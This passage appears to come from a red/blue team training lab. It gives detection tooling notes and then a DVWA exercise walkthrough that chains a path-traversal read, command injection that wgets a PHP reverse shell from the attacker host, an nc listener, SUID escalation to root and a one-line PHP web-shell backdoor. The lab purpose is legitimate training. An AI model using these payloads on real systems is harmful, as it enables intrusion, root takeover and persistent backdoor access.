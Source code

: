 **Blue Team**:
- **Detection**:
  - Wazuh: SSH brute-force alerts.
  - Zeek: `zeek-*` for SSH spikes.
  - Suricata: Brute-force signatures.
  - Osquery:
    ```sql
    SELECT * FROM processes WHERE name = 'python3';
    ```
- **Response**:
  - TheHive, Cortex, MISP.
  - n8n: Wazuh alert → disable SSH.
- **Collaboration**:
  - Red team shares wordlist.
  - Blue team adds SSH rate-limiting.

---

##### Exercise 4: DVWA File Inclusion to Root with PHP Backdoor
**Objective**: Exploit local file inclusion (LFI), gain shell, escalate to root, and plant PHP backdoor.

**Red Team (Kali)**:
1. **Recon**:
   ```bash
   nmap -sV -p 80 dvwa
   ```
2. **LFI**:
   - Access `http://localhost:8081/vulnerabilities/fi/?page=../../../../etc/passwd` (security: low).
   - Confirm LFI vulnerability.
3. **Shell**:
   - Upload reverse shell via LFI and command injection:
     ```bash
     curl -o reverse_shell.php https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
     ```
     Edit: `LHOST=kali`, `LPORT=4447`.
   - Inject via DVWA “Command Injection”:
     ```bash
     curl "http://dvwa:80/vulnerabilities/exec/#; wget http://kali/reverse_shell.php -O /var/www/html/reverse_shell.php"
     ```
   - Listener:
     ```bash
     nc -lvnp 4447
     ```
   - Trigger:
     ```bash
     curl http://dvwa:80/reverse_shell.php
     ```
4. **Root**:
   ```bash
   find / -perm -4000 2>/dev/null
   /bin/bash -p
   whoami  # root
   ```
5. **Backdoor**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/backdoor.php
   ```
   Test:
   ```bash
   curl "http://dvwa:80/backdoor.php?cmd=whoami"
   ```
